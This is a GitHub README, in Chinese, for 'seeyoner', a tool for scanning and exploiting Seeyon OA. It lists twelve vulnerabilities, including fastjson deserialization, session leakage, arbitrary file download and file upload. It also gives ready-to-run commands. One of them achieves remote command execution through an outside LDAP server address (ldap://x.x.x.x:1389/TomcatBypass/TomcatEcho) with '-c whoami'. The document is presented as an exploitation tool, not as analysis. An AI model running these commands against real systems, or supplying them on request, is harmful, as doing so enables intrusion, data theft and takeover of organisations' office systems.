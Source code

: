 ```yaml
---
project: seeyon-exploit
stars: 187
description: 致远OA漏洞检测
url: https://github.com/xfiftyone/seeyon-exploit
---
```


seeyoner
========

致远OA漏洞利用工具

Usage
-----

```
D:\>seeyoner.exe -h
        seeyoner v1.0 by x51
Usage：seeyoner.exe -u http://192.168.1.1:8080/ -vn all -m scan
Options:
  -a string
        run mode ldap args
  -c string
        run mode command args
  -h    print this help info.
  -m string
        mode：scan/run
  -show
        show vuln list.
  -u string
        target url.
  -vn string
        vuln number，[1,2,...]
```

### scan

全漏洞探测：

```
seeyoner.exe -u http://xxx.com -vn all -m scan
```

  
指定漏洞探测： `-vn`指定漏洞编号，可通过`-show`参数查看：

```
D:\>seeyoner.exe -show

漏洞列表：
1、seeyon<8.0_fastjson反序列化
2、thirdpartyController.do管理员session泄露
3、webmail.do任意文件下载（CNVD-2020-62422）
4、ajax.do未授权&任意文件上传
5、getSessionList泄露Session
6、htmlofficeservlet任意文件上传
7、initDataAssess.jsp信息泄露
8、DownExcelBeanServlet信息泄露
9、createMysql.jsp数据库信息泄露
10、test.jsp路径
11、setextno.jsp路径
12、status.jsp路径（状态监控页面）
```

探测seeyon<8.0\_fastjson反序列化漏洞：

```
seeyoner.exe -u http://xxx.com -vn 1 -m scan
```

### run

以Session泄露+zip文件上传解压为例，指定编号为`2`：

```
seeyoner.exe -u http://xxxx.com -vn 2 -m run
```

seeyon<8.0\_fastjson反序列化利用起来比较特殊，也只有该漏洞会用到`-a`和`-c`参数：  
`-a`指定你的LDAP服务地址，`-c`指定需要执行的系统命令

```
seeyoner.exe -u http://xxxx.com -vn 1 -m run -a ldap://x.x.x.x:1389/TomcatBypass/TomcatEcho -c whoami
```
